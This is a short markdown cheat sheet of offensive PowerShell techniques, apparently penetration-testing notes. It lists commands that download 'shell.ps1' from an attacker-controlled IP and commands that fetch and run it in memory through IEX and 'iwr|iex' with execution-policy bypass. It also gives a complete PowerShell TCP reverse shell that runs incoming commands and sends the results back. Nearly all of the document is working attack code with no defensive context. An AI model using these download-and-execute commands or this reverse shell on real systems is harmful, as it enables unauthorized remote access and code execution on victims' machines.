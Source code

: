 ## Download file using powershell

```console
# Using WebClient.Downloadfile
D:\> powershell -command "(New-Object System.Net.WebClient).DownloadFile(\"http://192.168.0.159:8002/shell.ps1\", \"shell.ps1\")"

# Invoke-WebRequuest
D:\> powershell Invoke-WebRequest -Uri "http://192.168.0.159:8002/shell.ps1" -OutFile "shell.ps1"

# Requiring authentication
D:\> powershell Invoke-WebRequest -Uri "http://192.168.0.159:8002/shell.ps1" -OutFile "shell.ps1" -Credential GetCredential 

# Execute generic CMD from powershell
D:\> powershell -command "whoami"'
```

## Script invocation
```console
# From CMD
D:\> PowerShell.exe -command "TestPS.ps1"


# From another powershell script
invoke-expression -Command .\TestPS.ps1
```

## Download and execute from server
```console
# Using WebClient.DownloadString and execute downloaded content
D:\> powershell "IEX (New-Object System.Net.WebClient).DownloadString(\"http://192.168.0.159:8002/shell.ps1\");"

# Pipe downloaded string to iex
D:\> powershell -exec bypass -c "iwr(\"http://192.168.0.159:8002/shell.ps1\")|iex"

```

## Powershell shell example
```console
$client = New-Object System.Net.Sockets.TCPClient("192.168.0.159:8001",8001);
$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0)
{
	;
	$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
	$sendback = (iex $data 2>&1 | Out-String );
	$sendback2 = $sendback + "# ";
	$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
	$stream.Write($sendbyte,0,$sendbyte.Length);
	$stream.Flush()
};
$client.Close()
```

## Util infos
https://github.com/davehardy20/PowerShell-Scripts
https://book.hacktricks.xyz/shells/shells/windows
https://www.revshells.com/
